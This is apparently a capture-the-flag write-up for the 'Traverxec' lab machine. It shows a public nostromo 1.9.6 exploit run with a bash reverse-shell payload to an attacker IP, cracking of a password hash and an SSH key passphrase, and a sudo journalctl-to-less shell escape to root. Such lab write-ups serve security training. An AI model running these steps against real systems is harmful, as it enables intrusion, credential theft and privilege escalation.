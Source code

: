 ## Info
### Credential
 User | Password | Service | Note
------|----------|---------|------
david |          |         |passphrase: `hunter`

### HTTP
- Server: `nostromo 1.9.6`
- `/empty.html`
- `/~david`


## Path
#### User
1. Run `47837.py` from EDB, and get the reverse shell.
```
python2 47837.py $ip 80 "bash -c 'bash -i >& /dev/tcp/10.10.16.3/13337 0>&1'"
```
2. Find `david`'s hash at `/var/nostromo/conf/.htpasswd` and crack the password.
3. According to the document, found `/~david` and possible directory `public_www`.
```
$ cat /var/nostromo/conf/nhttpd.conf
...
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
$ man nhttpd
HOMEDIRS
     To serve the home directories of your users via HTTP, enable the homedirs option by defining the path in where the home directories are
     stored, normally /home.  To access a users home directory enter a ~ in the URL followed by the home directory name like in this example:

           http://www.nazgul.ch/~hacki/

     The content of the home directory is handled exactly the same way as a directory in your document root.  If some users don't want that their
     home directory can be accessed via HTTP, they shall remove the world readable flag on their home directory and a caller will receive a 403
     Forbidden response.  Also, if basic authentication is enabled, a user can create an .htaccess file in his home directory and a caller will
     need to authenticate.

     You can restrict the access within the home directories to a single sub directory by defining it via the homedirs_public option.
```
4. Since user `www-data` has execute right on the directory `/home/david`, we can `cd` into `david/public_www`.
5. Get `backup-ssh-identity-files.tgz` in `/home/david/public_www`, then decompress it to get `id_rsa`. Crack the passphrase with `john`.
```
www-data@traverxec:/dev/shm$ ls
total 560
drwxrwxrwt  3 root     root        160 Jul 31 11:09 .
drwxr-xr-x 16 root     root       3160 Jul 31 03:30 ..
-rw-r--r--  1 www-data www-data   1915 Jul 31 11:02 backup-ssh-identity-files.tgz
www-data@traverxec:/dev/shm$ tar zxvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```
6. Login via SSH and get the user flag.
### Root
1. From `~/bin/server-stats.sh`, it reveals `david` can run `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` as `root` without password.
```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
2. Shrink the column of the tty to less than 5, so we can be sent into `less`. Then use `less` to spawn a shell and get the root flag.
```
$ stty cols 4
$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/bash
$ whoami
root
```

